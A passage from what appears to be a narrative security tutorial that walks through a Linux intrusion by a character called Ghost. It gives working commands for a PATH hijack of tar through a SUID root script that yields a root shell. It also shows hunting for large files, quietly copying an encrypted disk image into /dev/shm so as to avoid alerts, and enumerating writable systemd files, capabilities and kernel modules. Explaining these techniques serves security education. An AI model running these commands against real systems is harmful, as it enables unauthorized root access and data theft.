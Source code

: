 `/usr/local/bin/backup.sh` — a script running with SUID privileges (executed as root).

**Problem**: The script calls tar without specifying a full path.

**Solution**: Ghost hijacks tar, tricking the system into running his script as root.

```bash
echo "/bin/sh" > /tmp/tar
chmod +x /tmp/tar
export PATH=/tmp:$PATH
/usr/local/bin/backup.sh
```

**Result**: A root shell.

He's inside the command center.

Once privileges are escalated, attackers begin searching for sensitive data:

```bash
# Hunting for high-value targets
find / -type f -size +1G -mtime -180 2>/dev/null
```

**Hit.**

A directory named `/research/archive` catches his eye—inside, a 12GB encrypted disk image (confidential.img).

Ghost doesn't need to crack the encryption now — that would take time and CPU cycles. Instead, he duplicates the raw disk image for offline decryption.

```bash
# Quietly copying the encrypted disk image
dd if=/research/archive/confidential.img of=/dev/shm/exfil.img bs=4M status=none
```

No logs. No traces. Writing to `/dev/shm` keeps the stolen data in memory, avoiding disk writes that might trigger alerts.

### The Kernel's Blind Spots

Ghost knows that Linux has inherent blind spots — areas where the kernel implicitly trusts user input:

```bash
# Checking for vulnerable kernel modules
lsmod | grep -i "vulnerable_module"

# Looking for writable service configuration files
find /etc/systemd -type f -writable 2>/dev/null

# Identifying misconfigured capabilities
getcap -r / 2>/dev/null
```

These commands expose the system's trust architecture — revealing where Ghost can manipulate the kernel's decision-making process.

## Phase Four: Persistence

